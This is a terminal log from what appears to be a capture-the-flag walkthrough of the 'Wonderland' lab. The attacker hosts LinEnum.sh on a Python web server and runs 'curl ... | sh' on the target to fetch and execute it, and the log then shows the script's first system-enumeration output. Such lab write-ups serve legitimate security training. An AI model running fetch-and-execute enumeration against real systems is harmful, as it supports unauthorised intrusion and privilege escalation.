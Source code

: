 2020-06-06 17:49:48 (1.43 MB/s) - ‘LinEnum.sh’ saved [46631/46631]

root@kali:~/thm/wonderland# ls
alice_door.jpg  Cutter-v1.10.3-x64.Linux.AppImage  hint1.txt  hint.txt  index.jpeg  LinEnum.sh  linpeas.sh  teaParty  white_rabbit_1.jpg  wonderland.gnmap  wonderland.nmap  wonderland.xml
root@kali:~/thm/wonderland# python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.59.155 - - [06/Jun/2020 17:55:21] "GET /LinEnum.sh HTTP/1.1" 200 -
10.10.59.155 - - [06/Jun/2020 17:58:22] "GET /LinEnum.sh HTTP/1.1" 200 -




hatter@wonderland:~$ curl http://10.9.17.195:8000/LinEnum.sh | sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 46631  100 46631    0     0   263k      0 --:--:-- --:--:-- --:--:--  263k
-e 
#########################################################
-e # Local Linux Enumeration & Privilege Escalation Script #
-e #########################################################
-e # www.rebootuser.com
-e # version 0.982

[-] Debug Info
-e [+] Thorough tests = Disabled
-e 

-e Scan started at:
Sat Jun  6 16:58:23 UTC 2020                                                                                                                                                                                                               
-e                                                                                                                                                                                                                                         

-e ### SYSTEM ##############################################
-e [-] Kernel information:
Linux wonderland 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
-e 

-e [-] Kernel information (continued):
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-003) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020
-e 

-e [-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.4 LTS"
NAME="Ubuntu"
VERSION="18.04.4 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.4 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
-e 
